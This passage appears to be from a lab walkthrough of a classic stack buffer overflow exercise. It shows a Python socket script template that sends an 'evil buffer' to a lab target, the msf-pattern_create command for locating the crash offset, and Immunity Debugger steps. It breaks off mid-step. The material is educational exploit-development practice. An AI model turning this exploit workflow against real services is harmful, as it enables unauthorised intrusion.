```
import socket

ip = "10.10.253.98"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

### msf\_pattern\_create

* We will now utilize a Metasploit module to generate a pattern that is a length of <mark style="color:yellow;">400 bytes LONGER than the string that crashed the program</mark>
* This is because the payload after that will still need to take up space in memory!
* We choose <mark style="color:yellow;">2400 bytes because the program crashed at 2000</mark>

Use the following command to generate your pattern:

```
msf-pattern_create -l 2400
```

<figure><img src="../../../.gitbook/assets/image (7) (3) (1).png" alt=""><figcaption></figcaption></figure>

* We will now take this long string of characters and place it in the payload section of <mark style="color:yellow;">01exploit.py</mark>
* Return to Immunity Debugger. Since the program has crashed, press the double arrow button to restart the program, now press the play button to start the program
* Now that the program is running and we have modified our script with the payload, it is time to run it

<figure><img src="../../../.gitbook/assets/image (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

* If you made it this far, this is a great sign. Check Immunity and look at the bottom for the following:

